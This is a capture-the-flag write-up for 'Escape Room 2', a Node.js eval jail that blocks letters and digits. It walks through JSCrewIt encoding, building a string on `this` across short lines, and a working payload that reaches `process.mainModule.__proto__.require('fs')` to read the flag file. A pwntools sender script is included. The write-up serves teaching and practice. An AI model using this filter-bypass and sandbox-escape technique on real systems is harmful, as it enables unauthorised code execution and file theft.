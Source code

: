 ```yaml
---
title: UnitedCTF Escape Room 2 writeup
description: Escape Room 2, by KptCheeseWhiz
slug: unitedctf-escape-room-2-writeup
authors:
  - gcholette
tags: [unitedctf, ctf, writeup, jail]
hide_table_of_contents: false
---
```


Here's the challenge description

> A room, a terminal, a locked door asking for a secret code... and a broken keyboard whose letters and numbers no longer work. How hard can it be?

There is also a free hint on the challenge

> The require function is not part of the global context, it is a scoped variable which becomes undefined when called in different contexts. Try to find where is it always defined.

We are also provided and ip and port to connect to with netcat.


Upon connecting to the socket, we are prompted with this.

```javascript
async function challenge() {
  console.log(challenge.toString());
  try {
    const linereader = require("readline").createInterface({
      input: process.stdin,
    });

    process.stdout.write("> ");
    for await (const line of linereader) {
      if (/[0-9a-z]/i.test(line)) throw new Error("ILLEGAL INPUT DETECTED!");
      eval(line);
      process.stdout.write("> ");
    }
  } catch (err) {
    console.log(err.message);
  }
}
>
```


The objective is to inject javascript in the eval statement to print the `flag.txt` file, while evading constraints.

<!-- truncate -->

Immediately we see this line which is our constraint, we can't use numbers or letters (case insensitive).

```javascript
if (/[0-9a-z]/i.test(line)) throw new Error("ILLEGAL INPUT DETECTED!");
```

The first thing that came to mind was [JSFuck](https://jsfuck.com/), but after trying one command `console.log("Hello")`, i noticed that the length of my input was likely too long (~6k chars).

![Terminal output](./img/scr1.png)

To figure out the maximum length I copied and modified the server's prompt code to print the length of the line that it read. Then tried the same input.

![Terminal output](./img/scr3.png)

![Terminal output](./img/scr2.png)

4095 chars is a very small space to write JSFuck that tends to be in the tens of thousands characters for simple code. The best that I could find to write the equivalent with the least amount of characters possible was [JSCrewIt](https://jscrew.it/), and still it would not be enough to write an entire command. I figured that if i could send commands of small size it would probably work.

Now here things get wierd, i'm not sure if this was the solution they were looking for with this challenge, but it worked.

Since the program runs in a loop inside a function, the `this` keyword can be used reliably to store variables. So you could use something like `this.a = ""` and add strings to it to build a command that would be input to `eval`.

So I tried a simple command in multiple parts using the [JSCrewIt](https://jscrew.it/) converter

```javascript
this.a=""
this.a+="console.log("
this.a+="'aaaa"
this.a+="')"
console.log(eval(this.a))
```

Each line was created on the [JSCrewIt](https://jscrew.it/) website so i could check how many characters were created to avoid going over 4065.

![JScrewit output](./img/jscrewit1.png)

If i convert each line of the script to JSCrewit and feed it to the challenge, it works.

![Terminal output](./img/scr4.png)

Using the [JScrewit npm package](https://www.npmjs.com/package/jscrewit) i created a simple script to output consecutive js commands as JScrewit to a file

```javascript
const JScrewIt = require('jscrewit')
const fs = require('fs')

const script = [
  `this.a=""`,
  `this.a+="console.log("`,
  `this.a+="'aaaa"`,
  `this.a+="')"`,
  `console.log(eval(this.a))`,
]

const options = {
  features: 'NODE_22',
}

let output = script.map((x) => JScrewIt.encode(x, options)).join('\n')

fs.writeFileSync("output.txt", output)
```

The output can then be sent to the server with a simple pwntools python script.

```python
from pwn import *
import time

context.log_level = 'DEBUG'
r = remote('<ip>', 1234)

file1 = open('output.txt', 'r')
Lines = file1.readlines()

for line in Lines:
    r.sendline(line)

r.interactive()
```

![Terminal output](./img/scr5.png)

With this i could mess around and try to find where `required` is defined, following the hint the challenge provided. I sumbled on [this hackerone report](https://hackerone.com/reports/1877919) while searching. Meaning that `process.mainModule.__proto__.require()` could be the solution. I could then load `fs` and read the flag.

```javascript
const script = [
    'this.a=""',
    'this.a+="process"',
    'this.a+=".main"',
    'this.a+="Module."',
    'this.a+="_"',
    'this.a+="_"',
    'this.a+="proto"',
    'this.a+="_"',
    'this.a+="_"',
    'this.a+=".require"',
    `this.a+="('fs"`,
    `this.a+="')"`,
    `this.a+=".readFileSync"`,
    `this.a+="('"`,
    `this.a+="./flag.t"`,
    `this.a+="xt"`,
    `this.a+="')"`,
    'this.a+=".toString()"',
    `console.log(eval(this.a))`,
]
```

Generating this and running the equivalent JScrewit sequence using the python script gives the flag

![Terminal output](./img/scr6.png)
